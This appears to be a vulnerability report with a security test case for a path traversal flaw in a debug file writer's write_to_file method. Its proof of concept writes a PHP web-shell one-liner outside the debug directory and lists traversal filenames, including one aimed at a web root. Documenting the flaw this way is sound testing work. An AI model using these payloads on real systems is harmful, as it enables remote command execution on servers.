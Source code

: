 While the current usage seems safe, the method itself is vulnerable if called with untrusted input.

### Security Test Case

**Test Setup:**
1. Set environment variable `IS_DEBUG_ENABLED=True`
2. Set `DEBUG_DIR` to a known directory (e.g., `/tmp/debug`)
3. Run the application

**Test Steps:**

1. **Test Path Traversal in Filename:**
```python
# If an attacker could control the filename parameter:
malicious_filename = "../../etc/test_file.txt"
# or
malicious_filename = "../../../var/www/html/shell.php"
```

2. **Proof of Concept Code:**
```python
import os
import sys
sys.path.append('backend')

os.environ['IS_DEBUG_ENABLED'] = 'True'
os.environ['DEBUG_DIR'] = '/tmp/debug'

from debug.DebugFileWriter import DebugFileWriter

# Create debug writer
writer = DebugFileWriter()

# Attempt path traversal
malicious_content = "<?php system($_GET['cmd']); ?>"
writer.write_to_file("../../../tmp/malicious.php", malicious_content)

# Verify file was written outside debug directory
if os.path.exists("/tmp/malicious.php"):
    print("VULNERABLE: File written outside debug directory")
```

**Expected Results:**
- File should be created at `/tmp/malicious.php` instead of within the debug directory
- This confirms path traversal is possible

**Validation:**
```bash
# Check if file exists outside debug directory
ls -la /tmp/malicious.php

# Verify content
cat /tmp/malicious.php
```
